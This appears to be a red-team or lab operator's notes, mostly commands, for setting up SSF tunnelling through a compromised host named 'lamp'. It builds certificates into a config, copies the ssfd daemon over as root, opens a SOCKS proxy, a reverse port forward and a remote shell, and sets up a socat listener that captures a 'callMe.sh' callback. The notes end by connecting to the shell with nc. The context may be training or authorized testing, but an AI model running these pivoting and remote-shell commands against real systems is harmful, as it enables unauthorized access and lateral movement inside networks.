 ```
cat ca.crt >> ca_int.crt

openssl x509 -extfile extfile.txt -extensions v3_req_p -req -sha1 -days 3650 -CA ca.crt -CAkey ca.key -CAcreateserial -in certificate.csr -out certificate.crt
cat ca.crt >> certificate.crt

cp ../config.json .
sed -i 's:_path:_buffer:' config.json
CA_CERT=$(sed ':a;N;$!ba;s/\n/\\\\n/g' certs/trusted/ca.crt)
CERT=$(sed ':a;N;$!ba;s/\n/\\\\n/g' certs/certificate.crt)
KEY=$(sed ':a;N;$!ba;s/\n/\\\\n/g' certs/private.key)
DH=$(sed ':a;N;$!ba;s/\n/\\\\n/g' certs/dh4096.pem)

sed -i 's#|C:\\\\windows\\\\system32\\\\cmd.exe##' config.json
sed -i 's:false:true:' config.json
sed -i "s:./certs/trusted/ca.crt:$CA_CERT:" config.json
sed -i "s:./certs/certificate.crt:$CERT:" config.json
sed -i "s:./certs/private.key:$KEY:" config.json
sed -i "s:./certs/dh4096.pem:$DH:" config.json
```

#### push files and execute

```
[[ SSF~Server ]]*
cd tools/ssf/ssf-linux-x86_64-3.0.0
scp ssfd config.json root@lamp:
ssh root@lamp ./ssfd --gateway-ports
```

```
[[ SSF~Client ]]*
cd tools/ssf/ssf-linux-x86_64-3.0.0
./ssf lamp --socks 9050 --remote-tcp-forward 0.0.0.0:4444:127.0.0.1:4444 --shell 5555 
    #This command is doing a lot -- we created a socks proxy through lamp on 9050, we opened up port 4444 on lamp to forward to localhost 4444, and opened up 5555 locally for a shell on lamp
```

```
[[ SSF~CallMe ]]*
lsof -i tcp:9050
lsof -i tcp:4444
    #If this fails, then we need to start up our listener again
    socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &

ssh root@lamp ss -punta
cat /tmp/PROOF
proxychains4 -q callMe.sh linux 80 10.2.20.220 4444 tcp
cat /tmp/PROOF

    #Lets also grab a shell from this server
lsof -i tcp:5555
nc 127.0.0.1 5555
```
